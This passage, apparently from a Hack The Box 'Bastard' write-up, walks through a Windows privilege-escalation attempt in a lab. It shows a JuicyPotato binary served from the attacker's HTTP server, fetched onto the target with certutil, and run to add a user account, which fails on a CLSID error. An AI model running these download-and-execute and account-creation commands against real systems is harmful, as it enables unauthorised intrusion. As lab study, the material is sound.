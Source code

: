 With the first enumeration commands a possible attack vector for **Escalate Privilege** emerges, the current compromised account has the **SeImpersonatePrivilige** privilege enabled, which would allow me to use **[ohpe's](https://github.com/ohpe/juicy-potato){:target="_blank"}** `JuicyPotato.exe` tool to compromise the machine. I just need to obtain system information with `systemInfo` to download the indicated executable on attacking machine and transfer it to the target machine with `certutil.exe`. The tool works without problems but when trying to create a malicious account I have a problem with the **CLSID** and I don't have a valid one in the **[ohpe](https://github.com/ohpe/juicy-potato){:target="_blank"}** page, I will have to look for another attack vector.

> **Victime Machine**:

```cmd
whoami /priv
# SeImpersonatePrivilege
whoami /all
systeminfo
# OS Name:                   Microsoft Windows Server 2008 R2 Datacenter
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/JuicyPotato.exe ./JP.exe
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
certutil.exe -f -urlcache -split http://10.10.14.238/JP.exe JP.exe
certutil.exe -hashfile .\JP.exe MD5
```

> **Attacker Machine**:

```bash
md5sum JP.exe
```

> **Victime Machine**:

```cmd
.\JP.exe

net user
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c net user oldb0y oldb0y123$ /add"
# COM -> recv failed with errr: 10038
```

<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/bastard_writeup/Bastard_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
